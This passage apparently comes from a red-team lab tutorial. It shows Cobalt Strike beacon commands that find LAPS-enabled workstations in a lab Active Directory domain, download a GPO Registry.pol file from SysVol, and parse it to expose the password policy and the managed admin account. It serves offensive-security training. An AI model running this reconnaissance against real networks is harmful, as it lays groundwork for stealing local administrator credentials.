 ```
beacon> powershell Get-DomainObject -SearchBase "LDAP://DC=dev,DC=cyberbotic,DC=io" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname

dnshostname              
-----------              
wkstn-1.dev.cyberbotic.io
wkstn-2.dev.cyberbotic.io
```

  

If we can find the correct GPO, we can download the LAPS configuration from the `gpcfilesyspath`.

```
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     03/16/2021 16:59:45   Scripts
 575b     fil     03/16/2021 17:11:46   comment.cmtx
 740b     fil     03/16/2021 17:11:46   Registry.pol

beacon> download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol
[*] started download of \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol (740 bytes)
[*] download of Registry.pol is complete
```

`Parse-PolFile` from the [GPRegistryPolicyParser](https://github.com/PowerShell/GPRegistryPolicyParser) package can be used to convert this file into human-readable format.

```
PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordComplexity
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 3    <-- Password contains uppers, lowers and numbers (4 would also include specials)

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordLength
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 14   <-- Password length is 14

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordAgeDays
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 7    <-- Password is changed every 7 days

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdminAccountName
ValueType   : REG_SZ
ValueLength : 14
ValueData   : lapsadmin   <-- The name of the local admin account to manage

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdmPwdEnabled
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1   <-- LAPS is enabled
```
